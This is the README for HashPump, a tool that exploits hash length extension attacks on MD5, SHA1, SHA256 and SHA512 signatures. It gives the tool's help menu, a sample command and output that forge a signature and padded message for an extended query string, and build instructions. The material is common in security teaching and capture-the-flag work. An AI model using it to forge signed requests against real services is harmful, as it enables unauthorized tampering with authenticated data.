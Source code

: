 HashPump
========

A tool to exploit the hash length extension attack in various hashing algorithms

Currently supported algorithms: MD5, SHA1, SHA256, SHA512

Help Menu
=========

    ./HashPump -h
    HashPump [-h help] [-t test] [-s signature] [-d data] [-a additional] [-k keylength]
         HashPump generates strings to exploit signatures vulnerable to the Hash Length Extension Attack.
         -h --help          Display this message.
         -t --test          Run tests to verify each algorithm is operating properly.
         -s --signature     The signature from known message.
         -d --data          The data from the known message.
         -a --additional    The information you would like to add to the known message.
         -k --keylength     The length in bytes of the key being used to sign the original message with.
         Version 1.0 with MD5, SHA1, SHA256 and SHA512 support.
         <Developed by bwall(@bwallHatesTwits)>

Sample Output
=============

    ./HashPump -s 6d5f807e23db210bc254a28be2d6759a0f5f5d99 --data count=10\&lat=37.351\&user_id=1\&long=-119.827\&waffle=eggo -a \&waffle=liege -k 14
    0e41270260895979317fff3898ab85668953aaa2
    count=10&lat=37.351&user_id=1&long=-119.827&waffle=eggo\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02(&waffle=liege

Compile
=======

    git clone https://github.com/bwall/HashPump.git
    apt-get install eclipse eclipse-cdt

Open eclipse, go to File->import, category General, choose Existing projects into Workspace, and select the folder you just downloaded. Use Ctrl+B to build the project (or see the Project menu to build only this project). The executable will be in the Debug folder of the source code.
